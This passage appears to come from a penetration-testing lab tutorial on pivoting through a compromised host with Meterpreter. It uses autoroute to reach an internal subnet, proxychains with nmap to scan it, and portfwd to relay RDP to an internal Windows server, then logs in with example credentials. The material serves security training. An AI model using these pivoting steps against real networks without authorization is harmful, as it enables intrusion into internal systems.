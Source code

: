 It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23
```

#### Listing Active Routes with AutoRoute
```shell
meterpreter > run autoroute -p

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

#### Testing Proxy & Routing Functionality
```shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

---

## Port Forwarding
Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

#### Portfwd options
#### Creating Local TCP Relay
```shell
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```
The above command requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

#### Connecting to Windows Target through localhost
```shell
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

#### Netstat Output
```shell
> netstat -antp

tcp  0  0  127.0.0.1:54652   127.0.0.1:3300   ESTABLISHED  4075/xfreerdp 
```
